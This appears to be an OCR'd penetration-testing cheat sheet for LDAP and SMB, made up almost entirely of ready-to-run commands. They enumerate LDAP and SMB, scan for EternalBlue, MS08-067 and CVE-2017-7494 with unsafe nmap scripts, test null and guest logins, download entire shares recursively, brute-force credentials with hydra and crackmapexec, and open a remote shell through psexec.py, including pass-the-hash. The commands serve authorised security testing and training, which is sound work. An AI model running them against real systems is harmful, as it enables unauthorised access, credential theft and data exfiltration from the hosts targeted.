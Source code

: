 ldapsearch -h <IP> -x -s base
ldapsearch -h <IP> -x -D '<DOMAIN>\<USER>' -w '<PASSWORD>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"
Graphical Interface
jxplorer
SMB - 445
Version if nmap didn’t detect it
Sometimes nmap doesn’t show the version of Samba in the remote host, if this happens, a good way to know which version the remote host is running, is to capture traffic with wireshark against the remote host on 445/139 and in parallel run an smbclient -L, do a follow tcp stream and with this we might see which version the server is running.

OR

sudo ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -L <IP>
Scan for vulnerability
nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
If :

MS17-010 - EternalBlue
MS08-067 - MS08-067
CVE-2017-7494 - CVE-2017-7494
Manual testing
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
Brute force
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
Mount a SMB share
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
Get a shell
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
